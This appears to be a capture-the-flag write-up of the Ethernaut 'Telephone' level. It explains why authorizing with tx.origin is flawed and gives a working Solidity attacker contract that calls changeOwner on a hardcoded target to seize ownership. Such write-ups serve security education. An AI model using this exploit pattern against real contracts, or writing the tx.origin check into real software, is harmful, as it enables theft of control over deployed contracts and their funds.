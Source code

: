 # Telephone

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Telephone {

  address public owner;

  constructor() public {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```

In this the interesting bit that looked was `tx.origin` so I googled about it and immediately found, [Solidity doc on tx.origin](https://docs.soliditylang.org/en/v0.6.2/security-considerations.html#tx-origin)

> Never use tx.origin for authorization

The basic difference between `tx.origin` and `msg.sender` is that the latter can be a `contract` and the former cannot be a contract.
- https://ethereum.stackexchange.com/questions/1891/whats-the-difference-between-msg-sender-and-tx-origin/1892

so if we call the given contract with another contract, the `tx.origin` would be my `metamask` and the `msg.sender` will be the contract.

## Exploit

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Telephone {

  address public owner;

  constructor() public {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}

contract TelephoneKiller {

  Telephone ogContract = Telephone(0x6aBBd652380d34Bea6a0C680A81c83cd942f6197);

  function pwned(address killer) public {
      ogContract.changeOwner(killer);
  }
}
```

Deploy the contract and call with own address. To confirm run:

```js
await contract.owner()
```